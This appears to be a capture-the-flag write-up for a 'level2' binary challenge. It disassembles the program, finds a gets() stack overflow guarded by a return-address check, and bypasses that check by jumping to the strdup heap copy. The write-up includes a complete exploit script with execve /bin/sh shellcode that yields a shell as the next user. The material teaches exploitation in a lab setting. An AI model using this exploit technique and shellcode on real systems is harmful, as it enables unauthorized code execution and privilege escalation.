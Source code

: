 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level1](../level1/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level3 →](../level3/solution.md)
</span>
</span>

level2
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:  push  ebp
   0x08048540 <+1>:  mov   ebp,esp
   0x08048542 <+3>:  and   esp,0xfffffff0
   0x08048545 <+6>:  call  0x80484d4 <p>
   0x0804854a <+11>: leave
   0x0804854b <+12>: ret
End of assembler dump.
```

It calls another function p:
```sh
FUNCTION=p EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:     55                   push  ebp
   0x080484d5 <+1>:     89 e5                mov   ebp,esp
   0x080484d7 <+3>:     83 ec 68             sub   esp,0x68
   0x080484da <+6>:     a1 60 98 04 08       mov   eax,ds:0x8049860
   0x080484df <+11>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484e2 <+14>:    e8 c9 fe ff ff       call  0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x080484ea <+22>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484ed <+25>:    e8 ce fe ff ff       call  0x80483c0 <gets@plt>
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -0x4c   | char data[76] | 76   |
|  0x00   | *EBP          |  4   |
|  0x04   | *EIP          |  4   |

Exploitation
------------

This is another stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

We can override the value of EIP by using 80 bytes of padding, followed by the address we want to jump to.
We could try to jump onto the stack-buffer.

First we need to find out at which address the stack-buffer starts.
```sh
gdb ./level2 -batch -ex 'b * 0x080484f2' -ex 'r <<<ABCD' -ex 'p (char*)$ebp - 0x4c'
```
```
Breakpoint 1 at 0x80484f2

Breakpoint 1, 0x080484f2 in p ()
$1 = 0xbffff6ec "ABCD"
```

```sh
ADDRESS="bffff6ec"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(printf '%.0sA' {1..80}; echo $BYTES) | ./level2
```
```
(0xbffff6ec)
```

Oh no, it looks like we where caught!
```nasm
...
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
...
```

Upon closer inspection, we can see that the stored value of the EIP (EBP + 4) is checked and the program exits if it is above 0xb0000000.
So we cannot jump onto our stack-buffer.

But we can also see that our input is being duplicated into an unfreed heap-allocated buffer, before the function returns.
```nasm
...
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

If we find out it's address we can jump onto it instead of the stack-buffer, and bypass the stack-check.
```sh
gdb ./level2 -batch -ex 'b * 0x0804853e' -ex 'r <<<ABCD' -ex 'p (char*)$eax'
```
```
Breakpoint 1 at 0x804853e
ABCD

Breakpoint 1, 0x0804853e in p ()
$1 = 0x804a008 "ABCD
```

Perfect, now all that's left to do is to place some shellcode at the start of the buffer.

I'll use [Geyslan G. Bem's tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php):


```sh
> /tmp/level2.sh cat << EOF
```
```bash
#!/usr/bin/env bash
RETURN_ADDRESS=0804a008
SIZE=80
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LC_ALL=C # Count bytes instead of graphemes
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

PADDING_SIZE=$((SIZE-${#SHELLCODE}))
PADDING=$(printf '%.0sA' $(seq -s' ' "$PADDING_SIZE"))

echo "$SHELLCODE$PADDING$BYTES"
```
```sh
EOF
chmod +x shellcode.sh
```

```sh
(/tmp/level2.sh; cat) | ./level2
```
```
1É÷á°
     Qh//shh/binã̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
whoami
level3
```
